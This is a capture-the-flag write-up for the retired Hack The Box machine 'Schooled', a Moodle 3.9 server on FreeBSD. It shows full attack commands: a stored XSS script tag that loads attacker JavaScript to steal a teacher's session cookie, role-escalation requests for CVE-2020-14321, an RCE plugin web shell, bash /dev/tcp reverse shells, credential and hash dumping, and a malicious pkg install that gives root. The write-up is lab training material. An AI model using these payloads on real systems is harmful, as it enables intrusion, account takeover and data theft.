








# Schooled

This is the write-up for the box Schooled that got retired at the 11th September 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.234    schooled.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/schooled.nmap 10.10.10.234
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Checking HTTP (Port 80)

The website advertises an institution for online learning and in the footer is an email address that could be useful:
- admissions[@]schooled.htb

In the menu are some sites and _teachers.html_ has some potential usernames:
- Jane Higgins (Scientific Research Lecturer)
- Lianne Carter (Manager & English Lecturer)
- Manuel Phillips (Mathematics Lecturer)
- Jamie Borham (Information Technology Lecturer)

Lets search for subdomains on the hostname _schooled.htb_:
```
gobuster vhost -u http://schooled.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

The subdomain _moodle.schooled.htb_ is found that has to be put into the _/etc/hosts_ file to access it.

The website uses the open-source learning management platform [Moodle](https://moodle.org/).
By checking the files in the [repository of Moodle](https://github.com/moodle/moodle), the version can be found in the file _theme/upgrade.txt_ and see that it goes until **version 3.9** which was released in June 2020.

When trying to login, there is an option to create an account:



After registering, there are four courses, but it is only possible to enroll into the Mathematics course.
When enrolling in the course, there are new menus and there is a hint in the announcement _"Reminder for joining students"_:
```
This is a self enrollment course. For students who wish to attend my lectures be sure that you have your MoodleNet profile set.

Students who do not set their MoodleNet profiles will be removed from the course before the course is due to start and I will be checking all students who are enrolled on this course.

(...)
```

The teacher will check something, which generally means that a vulnerability like **Cross-Site Scripting** has to be found and exploited.
After looking through the [Security advisories from Moodle](https://moodle.org/security/) there is one that is applicable for version 3.9.2 and in the **MoodleNet profile parameter**:
- [Stored XSS via moodlenetprofile parameter in user profile](https://moodle.org/mod/forum/discuss.php?d=410839)

When editing our profile, there is a _MoodleNet profile_ parameter and we can test if input gets validated:





The text is bold, so it did parse the HTML code and the **XSS vulnerability** can be tested with _script_ tags:
```
MoodleNet profile: <script src="http://10.10.14.3/test.js"></script>
```

The listener on my IP and port 80 receives a response, so lets steal the cookie of the teacher by adding JavaScript to _test.js_:
```
document.write('');
```

After a while the teacher will check the profile and our listener will receive the cookie:
```
"GET /?MoodleSession=df063r3kka0u4fci2eqdj2u3d1 HTTP/1.1" 200 -
```

Our current cookie has to be replaced with this one in the **Developer Tools** and after refreshing, we gain access to the profile of the user _Manuel Phillips_.

In the **Security advisories of Moodle** is a [vulnerability to escalate privileges](https://moodle.org/mod/forum/discuss.php?d=407393) from teacher role to manager role.

### Escalating Privileges in Moodle

The vulnerability is **CVE-2020-14321** and has public [exploit code available on GitHub](https://github.com/HoangKien1020/CVE-2020-14321) and explanations on how to exploit it.

The user ID of the user _Manuel Phillips_ is 24 and can be seen in the URL when browsing to the profile.
The user _Lianne Carter_ is described as _Manager_ on the homepage.

Enrolling _Lianne Carter_ to a course:
```
Site Home -> Mathematics -> Participants -> Enrol Users
```



Sending the _"Enrol Users"_ function to **Burpsuite** and changing the value of _userlist_ to 24 and _roletoassign_ to 1:
```
GET /moodle/enrol/manual/ajax.php?(...)&userlist%5B%5D=24&roletoassign=1(...) HTTP/1.1
Host: moodle.schooled.htb
```

After enrolling the user again, there will be a new menu on the profile of the user to _"Log in as"_:



This allows us to login as the manager _Lianne Carter_ and get access to the menu on the left side _Site administration_.

### Exploiting Moodle Plugins

With plugins, the application could be exploited to execute arbitrary commands but unfortunately the plugins are disabled:



It is possible to enable the installation of plugins with the payload of the PoC in the GitHub repository above, by editing the roles of the manager accordingly:
```
Site administration -> Users -> Define roles -> Manager -> Edit
```



The function _"Save changes"_ can be forwarded to **Burpsuite** and the payload has to be sent to enable hidden functions:
```
POST /moodle/admin/roles/define.php?action=edit&roleid=1 HTTP/1.1
Host: moodle.schooled.htb
(...)
sesskey=2ySg4cXvGf&return=manage&resettype=none&shortname=manager(...)
```

After sending the requests, it is possible to install plugins:



There is a **Remote Code Execution** plugin in this [GitHub repository](https://github.com/HoangKien1020/Moodle_RCE) that has to be uploaded as a ZIP file.
```
Install plugin from ZIP file -> Upload a file -> Choose rce.zip -> Install plugin from the ZIP file
```

Testing the code execution with the `id` command:
```
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

It works and can now be used to gain a reverse shell:
```
GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' HTTP/1.1
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

The file _/usr/local/www/apache24/data/moodle/config.php_ contains credentials for the **MySQL database**:
```
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
(...)
```

Login to MySQL:
```
mysql -u moodle -D moodle -p
```

Enumerating the Moodle database:
```
moodle@localhost [moodle]> show databases;
moodle@localhost [moodle]> use moodle;
moodle@localhost [moodle]> show tables;
moodle@localhost [moodle]> describe mdl_user;
moodle@localhost [moodle]> select id,firstname,username,password from mdl_user;
```
```
+----+------------+-------------------+--------------------------------------------------------------+
| id | firstname  | username          | password                                                     |
+----+------------+-------------------+--------------------------------------------------------------+
|  1 | Guest user | guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
|  2 | Jamie      | admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
|  3 | Oliver     | bell_oliver89     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
|  4 | Sheila     | orchid_sheila89   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
(...)
```

There are 27 users and their password hashes, but in _/etc/passwd_ are two users that can login called _jamie_ and _steve_:
```
cat /etc/passwd | grep -v login
```

The user _jamie_ is also the admin of the database, so this is probably the user to escalate privileges to.
Trying to crack password hash with **John The Ripper**:
```
john --wordlist=/usr/share/wordlists/rockyou.txt jamie.hash
```

After a while the hash gets cracked and the password is:
> !QAZ2wsx

The password works for the user _jamie_ to login via SSH:
```
ssh jamie@10.10.10.234
```

### Privilege Escalation to root

When checking the root privileges of the user with `sudo -l`, the user can run two commands with `pkg` with elevated privileges:
```
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

The command `pkg` is a package manager and there is an entry in [GTFOBins for this binary](https://gtfobins.github.io/gtfobins/pkg/) to escalate privileges to root.

Creating reverse shell script _shell.sh_ in _/tmp_:
```
bash -i >& /dev/tcp/10.10.14.3/9002 0>&1
```

Creating the package with `fpm`:
```
TF=$(mktemp -d)
echo '/tmp/shell.sh' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

Uploading the package to the box:
```
jamie@Schooled:/tmp $ curl 10.10.14.3:8000/x-1.0.txz -o x-1.0.txz
```

Installing the package with root permissions:
```
sudo pkg install -y --no-repo-update ./x-1.0.txz
```

After installing the package, it will execute _shell.sh_ and the listener on my IP and port 9002 starts a reverse shell as root!
